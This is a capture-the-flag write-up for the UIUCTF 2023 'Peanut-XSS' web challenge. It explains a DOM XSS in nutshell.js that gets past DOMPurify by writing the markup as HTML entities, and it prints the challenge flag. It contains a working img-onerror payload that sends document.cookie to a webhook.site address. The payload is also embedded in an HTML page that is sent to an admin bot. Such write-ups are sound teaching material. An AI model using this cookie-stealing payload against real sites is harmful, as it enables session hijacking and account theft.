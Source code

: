 # Peanut-XSS (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "Nutshell is pretty cool. Want to test it out?"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a DOM XSS.

## Exploring the challenge

The only web page available uses <code>nutshell.js</code>, a tool used to make "expandable, embeddable explanations". This tool takes the HTML specified 
inside the GET parameter <code>nutshell</code> and renders and makes expandable all links that start with <code>:</code>. These links must refer to a a Youtube video, 
a section of a Wikipedia article or a section of any web page (even the same one). To do this, the url specified in the <code>href</code> attribute must be of the 
following format: <code>http[s]?://domain_name/path#text</code>, where <code>text</code> is the text inside a section tag (<code><h\*></code>).
All elements present under this section are shown inside the produced baloon.

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/364d3adc-0c39-4743-a710-834dfdd3842d)

![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/dda8e0b1-8778-4ef7-ab3b-ad46a8a28358)

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/f35b95c9-4ea8-4040-9697-bbe54f00409c)

A user can send any url to the admin bot. It doesn't trigger any user event, so a possible XSS must be defined so that it executes automatically. 

## Attack
The HTML defined inside the nutshell parameter passes through this code:
```javascript
const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "HTMLmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```
The HTML, before being parsed by nutshell.js, is DOMPurified.
Looking at the <code>nutshell.js</code>([[1]](#1)) we can see this piece of code:
```javascript
// Get an array of all links, filtered by if the text starts with a :colon
        let expandables = [...dom.querySelectorAll('a')].filter(
            link => (link.innerText.trim().indexOf(':')==0)
        );

        // Turn each one into an Expandable!
        expandables.forEach((ex)=>{

            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");

            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
...
```
These instructions are executed as soon as the script is loaded, so without needing the user to click on the expandable link. It takes the text specified after the colon 
inside the anchor tag and paste it inside a <code>span</code> element with innerHTML. This element is then appended to the page. 
We can't just define the malicious HTML inside the anchor tag for two reasons: the innerText only refers to text and the HTML defined inside the nutshell parameter is 
purified by DOMPurify from the page itself. We should define a text that can be interpreted as HTML, but is not HTML. How? Obfuscation!
In order to trigger an XSS, a code like this: <code>\</span\>\<img src onerror='fetch("https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie="+document.cookie)'/\>\<span\></code> should be written like this: 
<code>\&lt;/span\&gt;\&lt;img src onerror='fetch("<span>https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=</span>"+document.cookie)'/\&gt;\&lt;span\&gt;</code>. So:
```HTML
<HTML>
<body>
    <h2>To write a section,</h2>
    <p>just use headings & paragraphs like this! Then…</p>
    <h2>To embed a section,</h2>
    <p>just make a link with :colon at the front… <a href="#ToWriteASection">:&lt;/span&gt;&lt;img src onerror=&#39;fetch(&quot;https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=&quot;+document.cookie)&#39;/&gt;&lt;span&gt;</a>!</p>
</body>
</HTML>
```
If we click on the preview button, the client is redirect to the same page but with nutshell parameter containing the malicious HTML. 
The XSS should be triggered. If we send the page's url to the admin bot, its cookie (the flag) is obtained.

![peanut_xss_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/4a45e29f-728b-4ce3-9390-19aa51fafece)


Flag is <code>uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}</code>

## References
<a id="1">[1]</a>
https://github.com/ncase/nutshell/blob/main/nutshell.js
